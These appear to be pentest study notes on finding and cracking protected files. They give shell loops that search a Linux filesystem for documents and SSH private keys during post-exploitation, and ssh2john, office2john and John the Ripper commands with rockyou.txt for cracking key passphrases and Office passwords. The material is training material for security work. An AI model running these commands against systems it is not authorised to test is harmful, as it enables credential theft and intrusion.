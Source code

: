 the [General Data Protection Regulation (GDPR)](https://gdpr-info.eu/) requires that personal data be encrypted both in transit and at rest. Nevertheless, it remains standard practice to discuss `confidential` topics or transmit `sensitive` data via email, which may be intercepted by attackers positioned to exploit these communication channels.


As more companies enhance their IT security infrastructure through training programs and security awareness seminars, it is becoming increasingly common for employees to encrypt sensitive files. Nevertheless, encrypted files can still be cracked and accessed with the right combination of wordlists and tools. In many cases, `symmetric encryption` algorithms such as `AES-256` are used to securely store individual files or folders
# this topic
we will shift our focus to techniques related to attacking password-protected files and archives.
Many different extensions correspond to encrypted files—a useful reference list can be found on [FileInfo](https://fileinfo.com/filetypes/encoded)
![](Pasted%20image%2020250620235006.png)

## Hunting for Encrypted Files
. As an example, consider this command we might use to locate commonly encrypted files on a Linux system:
```bash
for ext in $(echo ".xls .xls* .xltx .od* .doc .doc* .pdf .pot .pot* .pd* .pp*"); do
  echo -e "\nFile extension: " $ext
  find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core"
done


File extension:  .od*
/home/cry0l1t3/Docs/document-temp.odt
/home/cry0l1t3/Docs/product-improvements.odp
/home/cry0l1t3/Docs/mgmt-spreadsheet.ods
```




## Hunting for SSH keys

SSH keys usually don’t rely heavily on file extensions (the format is determined by the content), but in practice you’ll often see these:

```shell-session
$ grep -rnE '^-{5}BEGIN [A-Z0-9]+ PRIVATE KEY-{5}$' /* 2>/dev/null

/home/jsmith/.ssh/id_ed25519:1:-----BEGIN OPENSSH PRIVATE KEY-----
/home/jsmith/.ssh/SSH.private:1:-----BEGIN RSA PRIVATE KEY-----
/home/jsmith/Documents/id_rsa:1:-----BEGIN OPENSSH PRIVATE KEY-----
<SNIP>
```

```
for ext in $(echo ".pim .pem .private"); do
  echo -e "\nFile extension: " $ext
  find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core"
done
```

Certain files, such as SSH keys, do not have standard file extension. In cases like these, it may be possible to identify files by standard content such as header and footer values. For example, SSH private keys always begin with `-----BEGIN [...SNIP...] PRIVATE KEY-----`. We can use tools like `grep` to recursively search the file system for them during post-exploitation.
![](Pasted%20image%2020250621000829.png)
Some SSH keys are encrypted with a passphrase. With older PEM formats, it was possible to tell if an SSH key is encrypted based on the header, which contains the encryption method in use. Modern SSH keys, however, appear the same whether encrypted or not.

```shell-session
$ cat /home/jsmith/.ssh/SSH.private

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2109D25CC91F8DBFCEB0F7589066B2CC

<SNIP>
```
One way to tell whether an SSH key is encrypted or not, is to try reading the key with `ssh-keygen`.

```shell-session
$ ssh-keygen -yf ~/.ssh/id_ed25519 

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIpNefJd834VkD5iq+22Zh59Gzmmtzo6rAffCx2UtaS6
```

As shown below, attempting to read a password-protected SSH key will prompt the user for a passphrase:

```shell-session
ssh-keygen -yf ~/.ssh/id_rsa

Enter passphrase for "/home/jsmith/.ssh/id_rsa":
```
## Cracking encrypted SSH keys

we could use the Python script `ssh2john.py` to acquire the corresponding hash for an encrypted SSH key, and then use JtR to try and crack it.

```shell-session
ssh2john.py SSH.private > ssh.hash
john --wordlist=rockyou.txt ssh.hash
```
We can then view the resulting hash:

```shell-session
john ssh.hash --show

SSH.private:1234
```
## Cracking password-protected documents

Over the course of our careers, we are likely to encounter a wide variety of documents that are password-protected to restrict access to authorized individuals. Today, most reports, documentation, and information sheets are commonly distributed as Microsoft Office `documents` or `PDFs`. John the Ripper (JtR) includes a Python script called `office2john.py`
![](Pasted%20image%2020250621003353.png)
```shell-session
$ office2john.py Protected.docx > protected-docx.hash
john --wordlist=rockyou.txt protected-docx.hash
john protected-docx.hash --show
```
